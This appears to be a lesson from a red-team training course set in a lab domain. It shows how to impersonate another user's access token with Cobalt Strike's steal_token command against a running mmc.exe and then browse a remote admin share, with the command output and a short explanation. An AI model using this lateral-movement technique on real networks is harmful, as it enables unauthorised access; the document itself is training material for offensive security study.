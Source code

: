 We have already seen an example of using Cobalt Strike's `steal_token` command in the context of pass the ticket.  However, if we elevate or land on a system where a user is running a process, we can impersonate its token without having to jump through additional hoops.

If we list the running processes on Workstation 2 from an elevated prompt, we see that jking is running an instance of mmc.exe.
```
 PID   PPID  Name                                   Arch  Session     User
 ---   ----  ----                                   ----  -------     ----
 5536  1020  mmc.exe                                x64   0           DEV\jking
```
  

We can simply steal its token and access a target.
```
beacon> steal_token 5536

beacon> ls \\web.dev.cyberbotic.io\c$
[*] Listing: \\web.dev.cyberbotic.io\c$\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     08/15/2022 18:50:13   $Recycle.Bin
          dir     08/10/2022 04:55:17   $WinREAgent
          dir     08/10/2022 05:05:53   Boot
          dir     08/18/2021 23:34:55   Documents and Settings
          dir     08/19/2021 06:24:49   EFI
          dir     08/15/2022 18:58:09   inetpub
          dir     05/08/2021 08:20:24   PerfLogs
          dir     08/24/2022 11:02:25   Program Files
          dir     08/10/2022 04:06:16   Program Files (x86)
          dir     08/31/2022 17:40:32   ProgramData
          dir     08/15/2022 18:31:08   Recovery
          dir     08/30/2022 11:16:24   System Volume Information
          dir     08/30/2022 17:51:08   Users
          dir     08/30/2022 20:19:27   Windows
 427kb    fil     08/10/2022 05:00:07   bootmgr
 1b       fil     05/08/2021 08:14:33   BOOTNXT
 12kb     fil     09/01/2022 07:26:41   DumpStack.log.tmp
 384mb    fil     09/01/2022 07:26:41   pagefile.sys
```
  

This technique works by obtaining a handle to the target process, opening and duplicating its primary access token, and then impersonating that token.  The downside is that if the user closes the process, our ability to abuse it goes away.  By taking the additional steps of extracting tickets or hashes, we provide ourselves a more guaranteed or "future-proof" way of leveraging the credential material.

When impersonating users in this way, the CS client (since 4.8) updates several UI elements to help you keep track of who (if anybody) you're Beacon is currently impersonating.

  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/776/68b/018/steal-token-ui.png)